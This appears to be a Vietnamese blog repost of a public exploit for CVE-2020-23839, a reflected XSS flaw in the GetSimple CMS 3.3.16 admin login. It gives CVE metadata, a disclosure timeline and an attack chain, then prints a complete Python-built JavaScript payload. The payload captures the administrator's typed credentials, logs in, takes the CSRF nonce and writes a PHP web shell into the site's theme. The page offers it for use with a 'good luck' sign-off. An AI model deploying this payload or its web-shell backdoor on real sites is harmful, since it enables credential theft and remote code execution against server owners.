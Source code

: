 ```yaml
---
title: CVE-2020-23839 | GetSimple CMS v3.3.16 - Reflected XSS to RC
date: 20/6/2021
layout: single

--- 
```

---
)

## CVE-2020-23839
Tác giả: Bobby Cooke (boku) 
Nguồn: [boku7/CVE-2020-23839](https://github.com/boku7/CVE-2020-23839)

+ OWASP Top Ten 2017: A7:2017-Cross-Site Scripting (XSS)
+ CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') - Type 1: Reflected XSS 
+ CVSS Base Score: 6.1 MEDIUM
+ CVSS v3.1 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
+ https://nvd.nist.gov/vuln/detail/CVE-2020-23839
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-23839

## Phân tích lỗ hổng và công bố đầy đủ vấn đề
+ https://github.com/GetSimpleCMS/GetSimpleCMS/issues/1330


--- 
## Mô tả lỗ hổng bảo mật
+ GetSimple CMS v3.3.16 gặp phải XSS được phản ánh trên Cổng thông tin đăng nhập quản trị viên. Vào ngày 12 tháng 8 năm 2020, nhà cung cấp đã nhận được chi tiết tiết lộ đầy đủ về lỗ hổng bảo mật thông qua email riêng tư. Lỗ hổng bảo mật đã được tiết lộ công khai vào ngày 13 tháng 9 năm 2020 thông qua MITER với việc xuất bản CVE-2020-23839, chứa rất ít chi tiết và không có bằng chứng về khái niệm. Vào ngày 20 tháng 1 năm 2021, việc tiết lộ đầy đủ và phân tích mã đã được tiết lộ công khai dưới vé các vấn đề hoạt động của GetSimple CMS GitHub.

## Mô tả Khai thác
+ Khai thác này tạo ra một trọng tải XSS được phản ánh, ở dạng siêu liên kết, khai thác CVE-2020-23839. Khi Quản trị viên của hệ thống GetSimple CMS truy cập URL này trong trình duyệt của họ và nhập thông tin đăng nhập của họ, một chuỗi tấn công khai thác tinh vi sẽ được khởi chạy, cho phép kẻ tấn công từ xa giành được Quyền thực thi mã từ xa của máy chủ lưu trữ hệ thống GetSimple CMS


## Chuỗi tấn công

1. Thủ thuật của kẻ tấn công GetSimple CMS Admin để truy cập URL được cung cấp từ khai thác này
2. Quản trị viên sau đó nhập thông tin đăng nhập của họ vào cổng đăng nhập GetSimple CMS
3. Tải trọng XSS được phản ánh sẽ kích hoạt Hành động khi Quản trị viên nhấp vào nút Gửi hoặc nhấn Enter
4. Tải trọng XSS thực hiện yêu cầu XHR POST trong nền, đăng nhập trình duyệt vào bảng quản trị GetSimple CMS
5. Sau đó, trọng tải XSS thực hiện yêu cầu XHR GET thứ hai tới admin / edit-theme.php và thu thập Mã thông báo CSRF & chủ đề đã định cấu hình cho các trang web được lưu trữ trên CMS
6. Tải trọng XSS sau đó thực hiện yêu cầu ĐĂNG XHR thứ 3 tới admin / edit-theme.php, đưa một WebShell backdoor PHP vào tất cả các trang của CMS
7. Kẻ khai thác liên tục cố gắng kết nối với trang /index.php công khai của hệ thống CMS GetSimple đích cho đến khi một WebShell được trả về
8. Khi khai thác kết nối với WebShell, một WebShell PHP tương tác xuất hiện trong bảng điều khiển kẻ tấn công


---

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

## XSS_PAYLOAD

```python
def genXssPayload():
    XSS_PAYLOAD = '/index/javascript:'
    XSS_PAYLOAD += 'var s = decodeURIComponent("%2f");'
    XSS_PAYLOAD += 'var h = "application"+s+"x-www-form-urlencoded";'
    XSS_PAYLOAD += 'var e=function(i){return encodeURIComponent(i);};'
    XSS_PAYLOAD += 'var user = document.forms[0][0].value;'
    XSS_PAYLOAD += 'var pass = document.forms[0][1].value;'
    XSS_PAYLOAD += 'var u1 = s+"admin"+s;'
    XSS_PAYLOAD += 'var u2 = u1+"theme-edit.php";'
    XSS_PAYLOAD += 'var xhr1 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr2 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr3 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'xhr1.open("POST",u1,true);'
    XSS_PAYLOAD += 'xhr1.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'params = "userid="+user+"&pwd="+pass+"&submitted=Login";'
    XSS_PAYLOAD += 'xhr1.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr1.readyState == 4 && xhr1.status == 200) {'
    XSS_PAYLOAD += 'xhr2.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr2.readyState == 4 && xhr2.status == 200) {'
    XSS_PAYLOAD += 'r=this.responseXML;'
    XSS_PAYLOAD += 'nVal = r.querySelector("#nonce").value;'
    XSS_PAYLOAD += 'eVal = r.forms[1][2].defaultValue;'
    XSS_PAYLOAD += 'xhr3.open("POST",u2,true);'
    XSS_PAYLOAD += 'xhr3.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'payload=e("<?php echo shell_exec($_REQUEST[FierceGodKick]) ?>");'
    XSS_PAYLOAD += 'params="nonce="+nVal+"&content="+payload+"&edited_file="+eVal+"&submitsave=Save+Changes";'
    XSS_PAYLOAD += 'xhr3.send(params);'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr2.open("GET",u2,true);'
    XSS_PAYLOAD += 'xhr2.responseType="document";'
    XSS_PAYLOAD += 'xhr2.send();'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr1.send(params);'
    XSS_PAYLOAD += '%2f%2f'
    return XSS_PAYLOAD
```
![](https://raw.githubusercontent.com/boku7/CVE-2020-23839/main/CVE202023839.png)
---
## Nguồn bài viết và mã khai thác được tác giả Boku7 chia sẻ  

## Chúc May Mắn :D